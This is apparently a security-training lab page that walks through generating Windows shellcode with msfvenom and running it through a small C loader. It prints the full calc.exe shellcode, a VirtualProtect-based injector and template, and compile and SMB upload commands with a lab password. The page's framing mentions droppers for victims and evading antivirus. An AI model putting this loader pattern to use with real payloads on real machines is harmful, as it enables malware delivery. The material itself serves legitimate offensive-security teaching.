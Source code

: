 # Task 5 Generate Shellcode

Task 5 Generate Shellcode

In this task, we continue working with shellcode and demonstrate how to generate and execute shellcode using public tools such as the Metasploit framework.

# Generate shellcode using Public Tools

Shellcode can be generated for a specific format with a particular programming language. This depends on you. For example, if your dropper, which is the main exe file, contains the shellcode that will be sent to a victim, and is written in C, then we need to generate a shellcode format that works in C.

The advantage of generating shellcode via public tools is that we don't need to craft a custom shellcode from scratch, and we don't even need to be an expert in assembly language. Most public C2 frameworks provide their own shellcode generator compatible with the C2 platform. Of course, this is so convenient for us, but the drawback is that most, or we can say all, generated shellcodes are well-known to AV vendors and can be easily detected.

We will use Msfvenom on the AttackBox to generate a shellcode that executes Windows files. We will be creating a shellcode that runs the **`calc.exe`** application.

Generate Shellcode to Execute calc.exe

```bash
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

As a result, the Metasploit framework generates a shellcode that executes the Windows calculator (calc.exe). The Windows calculator is widely used as an example in the Malware development process to show a proof of concept. If the technique works, then a new instance of the Windows calculator pops up. This confirms that any executable shellcode works with the method used.

# Shellcode injection

Hackers inject shellcode into a running or new thread and process using various techniques. Shellcode injection techniques modify the program's execution flow to update registers and functions of the program to execute the attacker's own code.

Now let's continue using the generated shellcode and execute it on the operating system. The following is a C code containing our generated shellcode which will be injected into memory and will execute "calc.exe".

On the AttackBox, let's save the following in a file named **`calc.c`**:

```c
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

injector_template for windows

```bash
#include <windows.h>
char stager [] = {

#Delete this line & line below!! example below: paste below #this line
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"

};
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Now let's compile it as an exe file:

Compile our C program for Windows

```
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

Once we have our exe file, let's transfer it to the Windows machine and execute it. To transfer the file you can use smbclient from your AttackBox to access the SMB share at \\10.10.180.247\Tools with the following commands (remember the password for the **`thm`** user is **`Password321`**):

Copy calc-MSC.exe to Windows Machine

```
user@AttackBox$ smbclient -U thm '//10.10.180.247/Tools'smb: \> put calc-MSF.exe
```

This should copy your file in **`C:\Tools\`** in the Windows machine.

While your machine's AV should be disabled, feel free to try and upload your payload to the THM Antivirus Check at **`http://10.10.180.247/`**.

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/e90959ae18f71d51d7b8681676029493.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/e90959ae18f71d51d7b8681676029493.png)

The Metasploit framework has many other shellcode formats and types for all your needs. We strongly suggest experimenting more with it and expanding your knowledge by generating different shellcodes.

The previous example shows how to generate shellcode and execute it within a target machine. Of course, you can replicate the same steps to create different types of shellcode, for example, the Meterpreter shellcode.

# Generate Shellcode from EXE files

Shellcode can also be stored in **`.bin`** files, which is a raw data format. In this case, we can get the shellcode of it using the **`xxd -i`** command.

C2 Frameworks provide shellcode as a raw binary file **`.bin`**. If this is the case, we can use the Linux system command **`xxd`** to get the hex representation of the binary file. To do so, we execute the following command: **`xxd -i`**.

Let's create a raw binary file using msfvenom to get the shellcode:

Generate a Raw shellcode to Execute calc.exe

```
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
No encoder specified, outputting raw payload
Payload size: 193 bytes

user@AttackBox$ file /tmp/example.bin/tmp/example.bin: data
```

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
```

And run the **`xxd`** command on the created file:

Get the shellcode using the xxd command

```bash
xxd -i /tmp/example.bin
```

```
user@AttackBox$ xxd -i /tmp/example.bin
unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
  0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
  0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
  0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
  0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
  0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
  0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
  0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
  0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
  0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
  0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00,
  0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5,
  0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65,
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```

If we compare the output with the previous shellcode created with Metasploit, it matches.

Answer the questions below

Apply what we discussed in this task and get ready for the next topic!

Complete